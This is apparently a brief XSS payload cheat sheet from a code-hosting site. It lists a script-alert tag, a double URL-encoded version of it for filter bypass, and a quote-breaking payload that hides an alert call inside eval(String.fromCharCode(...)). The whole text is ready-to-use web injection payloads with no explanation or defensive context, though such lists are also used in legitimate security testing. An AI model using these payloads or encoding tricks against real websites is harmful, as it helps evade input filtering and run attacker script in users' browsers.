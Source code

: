 <h1>XSS</h1>

<h3>XSS double encoding</h3>
* Double encoded <script>alert('XSS')</script>

%253Cscript%253Ealert('XSS')%253C%252Fscript%253E

<h3>Alert Encoded<h3>
';eval(String.fromCharCode(97,108,101,114,116,40,39,115,97,103,105,111,108,115,104,97,110,115,107,121,39,41));b='
